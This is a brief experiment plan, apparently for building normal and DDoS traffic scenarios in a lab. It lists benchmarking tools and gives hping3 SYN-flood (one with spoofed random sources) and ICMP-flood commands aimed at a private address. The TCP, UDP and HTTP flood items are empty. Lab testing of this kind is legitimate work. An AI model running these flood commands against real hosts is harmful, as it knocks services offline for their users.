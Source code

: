 hping3 -> sudo apt install hping3 -y / sudo yum -y install hping3

Scenario
Benchmarking
a. Apache Bench
b. Apache JMeter
c. Iperf

1. Normal
   a. Video (UDP) + Audio (TCP) Streaming -> 2 / 3 Video yang berbeda ~10 menit
   b. Random request generator -> 11 endpoint (flask + nodeJS), 5 menit, 2 / 3 instance
   c. hping3 normal 5 - 10 menit

2. SYN Flood
   a. hping3
   a. sudo hping3 -S --flood -V -p 3002 192.168.29.128
   b. sudo hping3 192.168.29.128 -q -n -d 120 -S -p 3002 --flood --rand-source

3. ICMP Flood
   a. hping3
   a. sudo hping3 --flood –V –i eth0 192.168.29.128
   b. hping3 --icmp --flood 192.168.29.128

4. TCP Flood

5. UDP Flood

6. HTTP Flood
